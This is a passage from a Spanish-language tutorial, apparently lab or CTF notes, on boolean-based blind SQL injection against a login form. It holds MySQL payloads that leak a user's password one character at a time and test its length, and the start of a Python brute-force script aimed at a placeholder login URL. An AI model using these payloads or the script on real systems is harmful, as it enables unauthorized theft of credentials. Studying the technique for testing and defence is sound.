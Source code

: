 ```python

if __name__ == '__main__':

        makeRequest()
```

Su funcion es determinar mediante un parametro en especifico el cual se tiene que cambiar dependiendo de las necesidades de cada uno, en este caso cuando el parametro de respuesta es un `1` significa que es correcto y cuando es `3` significa que es un `error`, por lo que el script se guia por ese parametro y entorno a eso va sacando el nombre letra por letra sabiendo que `1` es `True` y `3` es `False`, con eso se descubre el `username` del usuario, si se intenta descubrir mas alla del mismo se tendra que aumentar la inyeccion de codigo en el script conservando la funcion de ataque guiado por el parametro...

Si queremos sacar la `password` una vez sabiendo el nombre del usuario, modificaremos la inyeccion y añadiremos lo siguiente...

Para determinar por lo menos cual es el primer caracter de la `password` o la longitud de la misma se puede utilizar `BurpSuit` con el `Intruder` para ver aunque sea el primero y de ahi modificar el script a nuestra manera...

> EJEMPLO...

Suponiendo que el usuario sea `enemigosss` y la primera letra de la `password` sea la letra `s` para saber la longitud de la `password` haremos lo siguiente...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)='s'-- -
```

Sabiendo lo larga que es pondremos ese signo `>=`...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)>='s'-- -
```

Y una vez sabiendo la longitud, cambiaremos el script un poco para adaptarlo a nuestras nuevas necesidades...

```mysql
' or (select substring(password, %d,1) from users where username='enemigosss')='%s'-- -
```

El script adaptado...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)
```